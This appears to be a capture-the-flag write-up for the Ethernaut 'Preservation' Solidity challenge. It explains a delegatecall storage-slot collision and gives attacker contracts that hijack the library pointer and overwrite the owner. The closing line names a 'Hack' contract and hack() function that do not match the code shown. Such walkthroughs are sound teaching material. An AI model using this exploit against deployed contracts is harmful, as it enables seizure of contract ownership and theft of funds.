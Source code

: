 ### Goals

Claim ownership of contract

### Exploit

When we use delegate call we need to keep in mind that we need to percive storage layout in the contract that we will be delegating to. If the storage layout is not percieved we might mess up the contract. As we can see the `Preservation` has 4 variables, but the `Library` has only 1. Effectively we will overwrite not `storedTime` but `timeZone1Library` since that's the storage order.

So we can call either `setFirstTime` or `setSecondTime` wich will change `timeZone1Library` variable. We can deploy our malicious library and call above function with ours malicious library addresss. In the malicious library address we will perceive the storage layout allowing to modify the owner variable.

### Code

```
contract Evil17 {
    Preservation public target;
    EvilLibrary public evilLib;

    constructor() {
        target = Preservation(PRESERVATION_ADDRESS);
        evilLib = new EvilLibrary();
        target.setFirstTime(uint256(uint160((address(evilLib)))));
        target.setFirstTime(0);
    }
}

contract EvilLibrary {
    // stores a timestamp
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;

    function setTime(uint256) public {
        owner = tx.origin;
    }
}
```

We deploy the `Hack` contract and call `hack()` and we claim the ownership of the Preservation.

Done!
